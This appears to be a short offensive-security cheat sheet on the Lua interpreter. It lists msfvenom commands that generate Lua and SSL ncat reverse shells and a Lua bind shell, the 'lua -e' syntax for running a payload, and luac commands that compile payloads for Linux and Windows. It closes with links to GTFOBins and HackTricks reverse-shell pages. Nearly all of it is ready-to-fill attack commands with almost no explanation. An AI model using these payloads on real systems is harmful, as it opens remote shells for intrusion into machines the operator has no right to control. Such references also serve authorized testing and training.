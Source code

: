 # Manual

## 01 - Common Files

```
/usr/bin/lua
```

## 02 - Generate Payloads

### 2.1 - Linux

#### 2.1.1 - Reverse Shells

```
$ msfvenom -p cmd/unix/reverse_lua lhost=<IP> lport=<PORT>

$ msfvenom -p cmd/unix/reverse_ncat_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

#### 2.1.2 - Bind Shells

```
$ msfvenom -p cmd/unix/bind_lua lport=<PORT>
```

## 03 - Execute Payloads

Single quotes.

```
> lua -e '<payload>'
```

Double quotes.

```
> lua -e "<payload>"
```

## 04 - Compile After Delivery

## 4.1 - Linux

^e48401

```
$ luac -o payload payload.lua
```

## 4.2 - Windows

```
C:\> luac.exe -o payload.exe payload.lua
```

---
## References

- [GTFOBins: Lua](https://gtfobins.github.io/gtfobins/lua/)

- [GTFOBins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)

- [GTFOBins: view](https://gtfobins.github.io/gtfobins/view/)

- [GTFOBins: rview](https://gtfobins.github.io/gtfobins/rview/)

- [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)

- [GTFOBins: rvim](https://gtfobins.github.io/gtfobins/rvim/)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)